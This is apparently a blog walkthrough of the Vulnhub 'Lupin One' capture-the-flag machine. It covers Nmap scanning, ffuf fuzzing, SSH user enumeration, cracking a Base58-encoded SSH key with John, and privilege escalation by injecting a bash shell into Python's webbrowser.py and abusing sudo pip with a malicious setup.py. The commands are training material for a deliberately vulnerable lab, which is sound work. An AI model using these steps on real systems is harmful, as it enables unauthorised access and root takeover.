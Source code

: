 ```yaml
---
layout: single
title: Lupin One - Vulnhub
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-11-16
classes: wide
header:
  teaser: /blog/assets/images/vulnhub-lupinone-writeup/lupinone-logo.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.png
categories:
  - WriteUp
  - Vulnhub
---
```

![](../assets/images/vulnhub-lupinone-writeup/lupinone_logo.png)

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.


## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupinnmap.png)

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.

![](../assets/images/vulnhub-lupinone-writeup/lupinerror.png)

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupin3.png)

This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt

![](../assets/images/vulnhub-lupinone-writeup/lupin4.png)

This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

![](../assets/images/vulnhub-lupinone-writeup/lupin5.png)

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js

![](../assets/images/vulnhub-lupinone-writeup/lupin6.png)

This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

![](../assets/images/vulnhub-lupinone-writeup/lupin7.png)


### Decrypting the Hidden Message

![](../assets/images/vulnhub-lupinone-writeup/lupin8.png)

The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

![](../assets/images/vulnhub-lupinone-writeup/lupin9.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin10.png)


### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash

![](../assets/images/vulnhub-lupinone-writeup/lupin11.png)

John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash

![](../assets/images/vulnhub-lupinone-writeup/lupin12.png)

The password P@55w0rd! is successfully retrieved.

## Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5

![](../assets/images/vulnhub-lupinone-writeup/lupin13.png)

Finding the Flag

![](../assets/images/vulnhub-lupinone-writeup/lupin14.png)

Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

### Privilege Escalation 
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l

![](../assets/images/vulnhub-lupinone-writeup/lupin15.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin16.png)

A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

![](../assets/images/vulnhub-lupinone-writeup/lupin17.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin18.png)

nano /usr/lib/python3.9/webbrowser.py

![](../assets/images/vulnhub-lupinone-writeup/lupin19.png)

The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

![](../assets/images/vulnhub-lupinone-writeup/lupin20.png)

### Root Access

![](../assets/images/vulnhub-lupinone-writeup/lupin21.png)

After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

![](../assets/images/vulnhub-lupinone-writeup/lupin22.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin23.png)
![](../assets/images/vulnhub-lupinone-writeup/lupin24.png)

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF

![](../assets/images/vulnhub-lupinone-writeup/lupin25.png)


Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper